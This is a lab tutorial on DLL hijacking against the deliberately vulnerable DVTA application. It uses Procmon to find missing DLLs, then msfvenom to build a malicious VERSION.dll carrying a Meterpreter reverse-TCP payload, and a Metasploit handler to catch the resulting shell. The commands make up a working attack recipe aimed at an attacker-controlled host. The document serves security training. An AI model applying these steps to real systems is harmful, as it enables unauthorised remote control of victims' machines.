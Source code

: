 # DLL⚙️ Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom, Metasploit, Apache Server

## Lab Setup
- Create two virtual machine:
  - ***Windows OS*** for executing exe application *(Victim Machine)*
    - Download [**DVTA**](https://github.com/srini0x00/dvta) Vulnerable Thick Client Application developed in C# .NET for learning purpose.  
  - ***Kali Linux*** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Install Applciation on Windows System >> Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/4.jpg)

> ### **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 
   
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/5.jpg)

> ### **Step-6: Reverse shell handler created successfully, Now paste malicious DLL(which we created through Step-4) in to the application directory & launch the application**

![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/6.jpg)

   **As you can see application is trying to load the malicious DLL without checking it and we got system reverse shell. 👨‍🔧 **

